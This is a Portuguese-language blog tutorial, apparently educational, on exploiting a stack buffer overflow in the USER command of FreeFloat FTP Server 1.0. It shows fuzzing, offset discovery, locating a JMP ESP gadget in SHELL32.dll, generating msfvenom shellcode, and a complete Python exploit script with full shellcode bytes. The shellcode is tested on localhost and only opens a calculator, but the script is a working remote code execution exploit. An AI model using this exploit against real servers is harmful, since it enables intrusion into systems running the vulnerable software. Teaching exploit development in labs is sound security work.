

Home
Home
 Dev Log
Dev Log
 Terminal
Terminal
 About
About

Explorando Buffer Overflow no FreeFloat FTP Server 1.0
Olá novamente, pessoal! Hoje eu trouxe para vocês um artigo ensinando como explorar uma vulnerabilidade de buffer overflow no FreeFloat FTP Server 1.0. Este tutorial é apenas para fins educacionais e de pesquisa.Essa é uma vulnerabilidade antiga, mas muito útil para quem está começando — ela ajuda bastante a entender como esse tipo de ataque funciona. Aqui, você vai aprender a:
> :: Identificar a falha
> :: Descobrir o offset necessário para estourar a pilha
> :: Alocar um shellcode na memória pe máquina alvo :-)
Então, vamos nessa!
Antes de tudo, vou deixar aqui os links dos programas que usei durante o processo.
ImmunityDebugger
FreeFloatFTPServer
Vamos começar executando o FreeFloat FTP Server no GDB:
C:\Users\PC\Downloads\Win32>gdb ./FTPServer.exe Saída inicial: GNU gdb (rubenvb-4.7.2-release) 7.5.50.20120920-cvs Reading symbols from C:\Users\PC\Downloads\Win32\FTPServer.exe...(no debugging symbols found)...done. (gdb) run Starting program: C:\Users\PC\Downloads\Win32\FTPServer.exe [New Thread 3664.0xea8]
Agora vamos verificar se as funções de entrada do servidor — como USER e PASS — estão vulneráveis a estouro de pilha (stack overflow).
Essa vulnerabilidade acontece quando enviamos mais dados do que a pilha pode armazenar, fazendo com que os dados "transbordem". É como colocar 21 peças em uma caixa que só cabe 20 — a peça extra vaza e pode interferir no funcionamento do código. Enviando o primeiro payload (300 bytes) Vamos testar a função USER enviando 300 bytes:
import socket s = socket.socket() s.connect(("127.0.0.1", 21)) def rcv(): return s.recv(1024).decode() print(rcv()) payload = b"USER " + b"A" * 300 + b"\r\n" s.send(payload)
Executando esse código, o programa crashou. No GDB, vimos o seguinte:
Program received signal SIGSEGV, Segmentation fault. [Switching to Thread 3664.0xd5c] 0x41414141 in ?? ()
O valor 0x41414141 corresponde a "AAAA" em ASCII — ou seja, os "A"s transbordaram e causaram a falha.
Descobrindo o offset exato Agora precisamos descobrir quantos bytes exatamente causam o transbordo (o "offset"). Para isso, vamos usar um pattern de caracteres únicos com identificadores. Exemplo:
C:\Users\PC\Desktop\home\pentest> python3 pattern.py -l 350 Aa0Aa1Aa2Aa3Aa4Aa5... Substituímos os "A"s pelo pattern gerado:> payload = b"USER " + b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6..." + b"\r\n" s.send(payload) Reiniciamos o servidor no GDB e executamos de novo. A saída foi: Program received signal SIGSEGV, Segmentation fault. [Switching to Thread 4960.0x15c8] 0x37684136 in ?? ()
Esse valor 0x37684136 é o que vamos usar para descobrir o offset:C:\Users\PC\Desktop\home\pentest> python3 pattern.py -l 350 -q 37684136 [!] Pattern found at: 230 bytes
Pronto! Descobrimos que o offset é de 230 bytes. Ou seja, precisamos enviar exatamente 230 bytes para alcançar o ponto onde podemos modificar o fluxo de execução da máquina.O que diabos fazemos com isso?
Com o offset, precisamos de um endereço de retorno que é para onde o programa irá saltar quando a função terminar e a instrução ret for executada.
> O endereço de retorno funciona como uma seta dizendo ao processador:
> "Depois que essa função acabar, vá para este ponto."
Como estamos estourando a pilha, temos a chance de substituir esse endereço. E aí que começa a mágica:
Se colocarmos um endereço que aponte para um local que contém nosso shellcode, conseguimos redirecionar o fluxo de execução para ele.
A estrutura da nossa string de exploit ficará assim:
[230 bytes de lixo (As)] + [4 bytes de endereço de retorno] + [nosso shellcode]
Quando a função do programa chegar no 'ret', ela irá pular para o endereço que colocamos logo após os 230 bytes.
Mas esse endereço precisa ser especial. Ele precisa pular para onde está nosso shellcode. Mas ai vem a grande pergunta! como fazemos isso? calma meu pequeno gafanhoto irei explicar.

Encontrando um 'JMP ESP'
Uma técnica comum é procurar por uma instrução 'JMP ESP' dentro de alguma DLL carregada na memória. Por quê? Porque:
'ESP' aponta para onde o shellcode está.
'JMP ESP' salta diretamente para lá.
simple nao? kkkkk
:: Usando o Immunity Debugger
1. Abra o Immunity Debugger.
2. Vá em File > Open, e selecione o 'FreeFloat.exe'.
3. Em seguida, clique em View > Executable Modules.
4. Localize uma DLL do sistema que tenha boas permissões e não tenha proteção como DEP/ASLR.
Exemplo comum: SHELL32.dll.
5. Dê dois cliques nela. Vai abrir o código assembly do módulo.
6. Pressione Ctrl+B para abrir a busca por código de máquina.
7. Pesquise pelo opcode: `ff e4` (que é a instrução `JMP ESP`).
Ao encontrar, você verá algo como:

76515D3F FFE4 JMP ESP
Esse é o endereço que precisamos!
Agora, formatamos ele de forma little-endian, ou seja, de trás pra frente com '\x':
0x76515D3F → \x3F\x5D\x51\x76
Nosso payload ficará assim:
payload = b"A" * 230 payload += b"\x3F\x5D\x51\x76" payload += shellcode
mas! porém! todavia, como estamos trabalhando com máquinas, tudo requer uma precisão absurda, e meio que às vezes
é difícil encontrar onde exatamente o ESP vai começar. então, pra garantir que ele chegue corretamente até o shellcode,
colocamos instruções nulas, ou seja, que não fazem nada :D instrução essa que se chama NOP (0x90).
colocamos algumas delas antes do shellcode, pra conseguir encaminhar o fluxo da máquina corretamente até o shellcode,
sem que ela pule partes.
com tudo isso feito, nosso código vai ficar assim!
import socket s = socket.socket() s.connect(("127.0.0.1", 21)) def rcv(): recv = s.recv(1024) return recv.decode() print(rcv()) # SHELL32 # 76515D3F FFE4 JMP ESP JMP = b'\x3F\x5D\x51\x76' # endereço formatado JMP = JMP + b"\x90" * 20 # NOPs pra garantir o fluxo certo, ajusta o tamanho se precisar buf = shellcode # nosso shellcode payload = b"USER " + b"A" * 230 + JMP + buf payload = payload + b"\r\n" s.send(payload)
Nosso exploit tá pronto pra injetar o shellcode!
mas agora precisamos criar um shellcode, né ?

pra isso, vamos usar o famosíssimo msfvenom pra gerar um shellcode que abre uma calculadora na máquina alvo :P
Mas antes, todavia o que são bad bytes?
bad bytes são bytes que podem quebrar o fluxo de execução da máquina:
tipo assim: podem fechar uma string antes da hora, ou causar outras coisas indesejadas.
alguns bem comuns:
Byte Descrição
\x00 null byte (fim de string) – quebra tudo em C e sockets
\x0a line feed (LF) – pode ser interpretado como "fim de linha"
\x0d carriage return (CR) – também pode ser "fim de entrada"
\x25 % – alguns programas escapam ou tratam isso diferente
pra tirar esses bad bytes do nosso shellcode, usamos a flag -b no msfvenom.
então bora gerar nosso shellcode!
ocalhost metasploit]$ ./msfvenom -p windows/exec cmd=calc.exe -b '\x00\x0A\x0D' -f python [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload [-] No arch selected, selecting arch: x86 from the payload Found 11 compatible encoders Attempting to encode payload with 1 iterations of x86/shikata_ga_nai x86/shikata_ga_nai succeeded with size 220 (iteration=0) x86/shikata_ga_nai chosen with final size 220 Payload size: 220 bytes Final size of python file: 1100 bytes então nosso shellcode gerado foi: buf = b"" buf += b"\xbd\x83\x24\x1d\xf4\xdb\xd7\xd9\x74\x24\xf4\x5b" buf += b"\x2b\xc9\xb1\x31\x31\x6b\x13\x03\x6b\x13\x83\xc3" buf += b"\x87\xc6\xe8\x08\x6f\x84\x13\xf1\x6f\xe9\x9a\x14" buf += b"\x5e\x29\xf8\x5d\xf0\x99\x8a\x30\xfc\x52\xde\xa0" buf += b"\x77\x16\xf7\xc7\x30\x9d\x21\xe9\xc1\x8e\x12\x68" buf += b"\x41\xcd\x46\x4a\x78\x1e\x9b\x8b\xbd\x43\x56\xd9" buf += b"\x16\x0f\xc5\xce\x13\x45\xd6\x65\x6f\x4b\x5e\x99" buf += b"\x27\x6a\x4f\x0c\x3c\x35\x4f\xae\x91\x4d\xc6\xa8" buf += b"\xf6\x68\x90\x43\xcc\x07\x23\x82\x1d\xe7\x88\xeb" buf += b"\x92\x1a\xd0\x2c\x14\xc5\xa7\x44\x67\x78\xb0\x92" buf += b"\x1a\xa6\x35\x01\xbc\x2d\xed\xed\x3d\xe1\x68\x65" buf += b"\x31\x4e\xfe\x21\x55\x51\xd3\x59\x61\xda\xd2\x8d" buf += b"\xe0\x98\xf0\x09\xa9\x7b\x98\x08\x17\x2d\xa5\x4b" buf += b"\xf8\x92\x03\x07\x14\xc6\x39\x4a\x72\x19\xcf\xf0" buf += b"\x30\x19\xcf\xfa\x64\x72\xfe\x71\xeb\x05\xff\x53" buf += b"\x48\xf9\xb5\xfe\xf8\x92\x13\x6b\xb9\xfe\xa3\x41" buf += b"\xfd\x06\x20\x60\x7d\xfd\x38\x01\x78\xb9\xfe\xf9" buf += b"\xf0\xd2\x6a\xfe\xa7\xd3\xbe\x9d\x26\x40\x22\x4c" buf += b"\xcd\xe0\xc1\x90"
exploit final montado!import socket s = socket.socket() s.connect(("127.0.0.1", 21)) def rcv(): recv = s.recv(1024) return recv.decode() print(rcv()) # SHELL32 # 76515D3F FFE4 JMP ESP JMP = b'\x3F\x5D\x51\x76' JMP = JMP + b"\x90" * 20 # NOPs buf = b"" buf += b"\xbd\x83\x24\x1d\xf4\xdb\xd7\xd9\x74\x24\xf4\x5b" buf += b"\x2b\xc9\xb1\x31\x31\x6b\x13\x03\x6b\x13\x83\xc3" buf += b"\x87\xc6\xe8\x08\x6f\x84\x13\xf1\x6f\xe9\x9a\x14" buf += b"\x5e\x29\xf8\x5d\xf0\x99\x8a\x30\xfc\x52\xde\xa0" buf += b"\x77\x16\xf7\xc7\x30\x9d\x21\xe9\xc1\x8e\x12\x68" buf += b"\x41\xcd\x46\x4a\x78\x1e\x9b\x8b\xbd\x43\x56\xd9" buf += b"\x16\x0f\xc5\xce\x13\x45\xd6\x65\x6f\x4b\x5e\x99" buf += b"\x27\x6a\x4f\x0c\x3c\x35\x4f\xae\x91\x4d\xc6\xa8" buf += b"\xf6\x68\x90\x43\xcc\x07\x23\x82\x1d\xe7\x88\xeb" buf += b"\x92\x1a\xd0\x2c\x14\xc5\xa7\x44\x67\x78\xb0\x92" buf += b"\x1a\xa6\x35\x01\xbc\x2d\xed\xed\x3d\xe1\x68\x65" buf += b"\x31\x4e\xfe\x21\x55\x51\xd3\x59\x61\xda\xd2\x8d" buf += b"\xe0\x98\xf0\x09\xa9\x7b\x98\x08\x17\x2d\xa5\x4b" buf += b"\xf8\x92\x03\x07\x14\xc6\x39\x4a\x72\x19\xcf\xf0" buf += b"\x30\x19\xcf\xfa\x64\x72\xfe\x71\xeb\x05\xff\x53" buf += b"\x48\xf9\xb5\xfe\xf8\x92\x13\x6b\xb9\xfe\xa3\x41" buf += b"\xfd\x06\x20\x60\x7d\xfd\x38\x01\x78\xb9\xfe\xf9" buf += b"\xf0\xd2\x6a\xfe\xa7\xd3\xbe\x9d\x26\x40\x22\x4c" buf += b"\xcd\xe0\xc1\x90" payload = b"USER " + b"A" * 230 + JMP + buf payload = payload + b"\r\n" s.send(payload)
finalizamos!agora é só executar... e voilá!

como num passe de mágica, a calculadora abriu na minha máquina :P
